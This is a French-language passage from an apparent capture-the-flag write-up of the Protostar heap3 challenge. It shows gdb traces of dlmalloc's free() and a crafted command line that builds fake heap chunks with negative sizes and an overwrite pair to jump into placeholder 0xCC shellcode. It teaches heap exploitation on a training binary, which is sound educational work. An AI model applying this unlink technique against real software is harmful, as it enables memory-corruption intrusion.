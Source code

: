 ```
(gdb) x/i $eip
0x8049921 <free+253>:   mov    0x4(%eax),%eax
(gdb) info reg eax
eax            0x4a470280       1246167680
(gdb) x/20i $eip-60
0x80498e5 <free+193>:   mov    -0x34(%ebp),%eax
0x80498e8 <free+196>:   mov    0x8(%eax),%eax
0x80498eb <free+199>:   mov    %eax,-0x14(%ebp)
0x80498ee <free+202>:   mov    -0x34(%ebp),%eax
0x80498f1 <free+205>:   mov    0xc(%eax),%eax
0x80498f4 <free+208>:   mov    %eax,-0x18(%ebp)
0x80498f7 <free+211>:   mov    -0x14(%ebp),%eax
0x80498fa <free+214>:   mov    -0x18(%ebp),%edx
0x80498fd <free+217>:   mov    %edx,0xc(%eax)
0x8049900 <free+220>:   mov    -0x18(%ebp),%eax
0x8049903 <free+223>:   mov    -0x14(%ebp),%edx
0x8049906 <free+226>:   mov    %edx,0x8(%eax)
0x8049909 <free+229>:   mov    -0x38(%ebp),%eax
0x804990c <free+232>:   mov    0x2c(%eax),%eax
0x804990f <free+235>:   cmp    -0x28(%ebp),%eax
0x8049912 <free+238>:   je     0x80499b6 <free+402>
0x8049918 <free+244>:   mov    -0x24(%ebp),%eax
0x804991b <free+247>:   mov    -0x28(%ebp),%edx
0x804991e <free+250>:   lea    (%edx,%eax,1),%eax
0x8049921 <free+253>:   mov    0x4(%eax),%eax
(gdb) info reg edx
edx            0x804c040        134529088
(gdb) x/wx $ebp-0x24
0xbffff6f4:     0x42424240
```

Le code a tenté d'écrire à `eax+4` et cette adresse semble improbable.

En remontant un peu les instructions ont voit que `eax` s'est vu affecté la valeur `edx+eax*1` et que `edx` correspond à `0x804c040` soit 16 octets AVANT et non après comme notre fake chunk.

Le registre `eax` provient quand à lui bien de `ebp-0x24` et correspond aux caractères `B`  que l'on a passé mais avec un bit mis à zéro...

Pas de doute, `malloc` cherche cette fois à consolider le chunk avec le suivant qu'il s'attend à voir à l'adresse `0x804c040`.

On sait que pour voir si le chunk suivant est libre il doit lire l'information sur le suivant du suivant, dans l'information de la taille.

La taille du chunk suivant (qu'il cherche à `0x804c040`) est aussi importante car `malloc` va remonter en mémoire d'autant d'octets. On va continuer avec nos tailles en `-16` :)

C'est parti :

```
(gdb) r `python -c 'print "\xCC" * 16'` `python -c 'print "A"*16 + "\xf1\xff\xff\xff\xf1\xff\xff\xff" + "A" * 8 + "\xf0\xff\xff\xff\xf0\xff\xff\xff"'` `python -c 'print "C"*16 + "\x1c\xb1\x04\x08\x0c\xc0\x04\x08"'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /opt/protostar/bin/heap3 `python -c 'print "\xCC" * 16'` `python -c 'print "A"*16 + "\xf1\xff\xff\xff\xf1\xff\xff\xff" + "A" * 8 + "\xf0\xff\xff\xff\xf0\xff\xff\xff"'` `python -c 'print "C"*16 + "\x1c\xb1\x04\x08\x0c\xc0\x04\x08"'`

Program received signal SIGTRAP, Trace/breakpoint trap.
0x0804c00d in ?? ()
(gdb) x/36wx 0x804c000
0x804c000:      0x00000000      0x00000029      0x0804c028      0xcccccccc <- début de notre shellcode
0x804c010:      0xcccccccc      0x0804b11c      0x00000000      0x00000000
```